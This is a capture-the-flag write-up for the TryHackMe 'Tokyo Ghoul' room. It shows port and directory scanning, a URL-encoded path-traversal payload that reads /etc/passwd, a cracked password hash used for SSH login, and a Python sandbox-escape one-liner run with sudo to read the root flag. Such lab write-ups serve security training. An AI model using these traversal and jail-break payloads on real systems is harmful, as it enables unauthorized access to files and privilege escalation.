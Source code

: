 # 66 - Tokyo Ghoul (LFI, python jail break exploitation)

Room Link --> [https://tryhackme.com/room/tokyoghoul666](https://tryhackme.com/room/tokyoghoul666)

## Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.249.81 -p- -T4 -sV

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
```
{% endcode %}

#### FTP Enumeration

<figure><img src=".gitbook/assets/image (441).png" alt=""><figcaption></figcaption></figure>

Webpage source code:

<figure><img src=".gitbook/assets/image (442).png" alt=""><figcaption></figcaption></figure>

`/jsonroom.html`&#x20;

<figure><img src=".gitbook/assets/image (443).png" alt=""><figcaption></figcaption></figure>

The executable file.

<figure><img src=".gitbook/assets/image (444).png" alt=""><figcaption></figcaption></figure>

We got the key

<figure><img src=".gitbook/assets/image (445).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (446).png" alt=""><figcaption></figcaption></figure>

Using the passord for the image. `You_found_1t` .

<figure><img src=".gitbook/assets/image (447).png" alt=""><figcaption></figcaption></figure>

Cracked with cyberchef `d1r3c70ry_center` .

<figure><img src=".gitbook/assets/image (448).png" alt=""><figcaption></figcaption></figure>

Navigating to the directory

<figure><img src=".gitbook/assets/image (449).png" alt=""><figcaption></figcaption></figure>

#### Gobuster enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.249.81/d1r3c70ry_center/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error

/claim
```
{% endcode %}

<figure><img src=".gitbook/assets/image (450).png" alt=""><figcaption></figcaption></figure>

maybe we can change it to get back and get the /etc/passwd

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*Uc7v9vpZLCfVpFGsxMZh5g.png" alt="" height="175" width="700"><figcaption></figcaption></figure>

This payload worked:

```bash
%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

# so i used burpsuite decoder to get the HTML encoded form of / and ..
# then add "etc" and "passwd"
# the online HTML encoders did not work for me.
```

<figure><img src=".gitbook/assets/image (451).png" alt=""><figcaption></figcaption></figure>

His username and password.

{% code overflow="wrap" %}
```bash
kamishiro:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0

# cracked
password123
```
{% endcode %}

Cracking with john

<figure><img src=".gitbook/assets/image (452).png" alt=""><figcaption></figcaption></figure>

### Initial Access

And we can login via SSH.

<pre><code><strong>kamishiro : password123
</strong></code></pre>

### Priv Esc

THere is a `jail.py` file in the home dir.

`sudo -l` - we can run this file with python3 as sudo.

Googling python jail break and found this [blog](https://anee.me/escaping-python-jails-849c65cf306e)

{% code overflow="wrap" %}
```bash
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /root/root.txt')
```
{% endcode %}

<figure><img src=".gitbook/assets/image (453).png" alt=""><figcaption></figcaption></figure>

Done!

